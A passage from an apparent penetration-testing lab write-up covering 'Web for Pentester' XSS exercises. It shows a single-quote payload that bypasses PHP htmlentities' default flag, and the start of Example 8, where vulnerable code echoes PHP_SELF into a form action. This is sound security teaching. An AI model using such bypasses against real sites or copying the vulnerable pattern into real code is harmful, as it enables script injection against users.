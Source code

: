 
It appears that now there is encoding performed on the name variable to prevent the previous type of bypass. Let's see how the source looks with the previous payload:


``` plain
var $a= 'hacker&quot;;alert(&quot;not enough&quot;);//';
```


The attack was nullified, but if you look at the <code>htmlentities</code> PHP manual page, you will see that, if not otherwise specified, the default flag is ENT_COMPAT, which converts double-quotes and leaves single-quotes alone. So all I had to do was replace the double-quotes with single-quotes:


``` plain
hacker';alert('still not enough');//
```


And this is translated in the HTML as:


``` plain
var $a= 'hacker';alert('stillnot enough');//';
```


**Example8**


{% img center /images/pentest/webpentester/xss8.png 'xss 8' 'web for pentester xss 8' %}


This looks a little different, we input something and it gets echoed back in a greeting: HELLO something

Source code:


``` php
<?php
  require_once '../header.php';

  if (isset($_POST["name"])) {
    echo "HELLO ".htmlentities($_POST["name"]);
  }
?>
<form action="<?php echo $_SERVER['PHP_SELF']; ?>" method="POST">
  Your name:<input type="text" name="name" />
  <input type="submit" name="submit"/>

<?php

  require_once '../footer.php';

?>
```


PHP_SELF returns the currently executing script and its path from the root folder. In our case, where the URL is http://192.168.217.138/xss/example8.php , PHP_SELF would be /xss/example8.php .
